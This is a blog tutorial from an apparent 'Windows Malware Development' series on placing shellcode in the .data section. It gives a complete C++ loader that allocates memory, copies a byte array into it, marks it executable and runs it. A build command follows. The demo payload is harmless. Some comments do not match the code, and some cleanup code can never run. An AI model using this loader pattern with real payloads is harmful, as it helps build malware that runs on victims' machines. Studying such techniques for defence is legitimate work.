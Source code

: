```yaml
---
title: "Windows Malware Development Part 3: Payload Placement Basics - .data and .rdata"
header:
  teaser: /assets/images/pe.png
  teaser_home_page: true
categories:
  - Malware Dev
classes: wide
tags:
  - Malware
toc: true
toc_label: Contents
---
```

## Objective ##

Hey guys, welcome to the third part of Windows Malware Development, in which we will be beginning with the basics of payload placement. In this post, we will be looking at how to place our shellcode in the `.data` and `.rdata` sections.

## .data Section ##

Placing our payload in the `.data` section is relatively easy. All we have to do is make sure that our shellcode variable is defined outside of our `main()` function. 

>You will need Visual Studio/Visual studio build tools, x64dbg and ProcessHacker for this exercise.

So, using our code from the previous post, all we have to do is remove the `#pragma` directive and the `declspec` line that tells it where to store the shellcode. Also, we do not define it as a `const`:

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

unsigned char Text_RawData[] = {
    0x90,    // NOP
    0x90,    // NOP
    0xcc,    // INT3
    0xc3     // RET
};

int main() {
    printf("[i] Text_RawData function: 0x%p \n", Text_RawData);

	// Allocate executable memory.
    size_t codeSize = sizeof(Text_RawData);
    printf("[1] Press <Enter> To Allocate Memory ...");
	getchar();
	void* executableMemory = VirtualAlloc(NULL, codeSize, MEM_COMMIT |  MEM_RESERVE, PAGE_READWRITE);
	
	if (executableMemory == NULL) {
        printf("VirtualAlloc Failed With Error : %d \n", GetLastError());
        return -1;
    }
	
	printf("[i] Memory allocated at : 0x%p \n", executableMemory);
	
	// Copy the shellcode from Text_RawData to the executable memory.
    printf("[2] Press <Enter> To Write Shellcode ...");
	getchar();
	memcpy(executableMemory, Text_RawData, codeSize);
    
	// Change the memory protection to PAGE_EXECUTE_READ.
    DWORD oldProtect;
    if (!VirtualProtect(executableMemory, codeSize, PAGE_EXECUTE_READWRITE, &oldProtect)) {
        printf("VirtualProtect Failed With Error : %d \n", GetLastError());
        return -1;
    }
	
	// Execute our shellcode
    printf("[#] Press <Enter> To Run ...");
	getchar();
	((void (*)())executableMemory)();
	return 0;
	
	// Free the allocated memory.
    VirtualFree(executableMemory, 0, MEM_RELEASE);

    printf("[#] Press <Enter> To Quit ...");
    getchar();
    return 0;
}
```

## Analyzing in x64dbg ##

In order to get a better understanding of how this works on a machine level, lets have a look at our program in x64dbg.

If you are using VS build tools, you can use the below command:

```
cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcfilename.cpp /link /OUT:output.exe /SUBSYSTEM:CONSOLE /MACHINE:x64
```

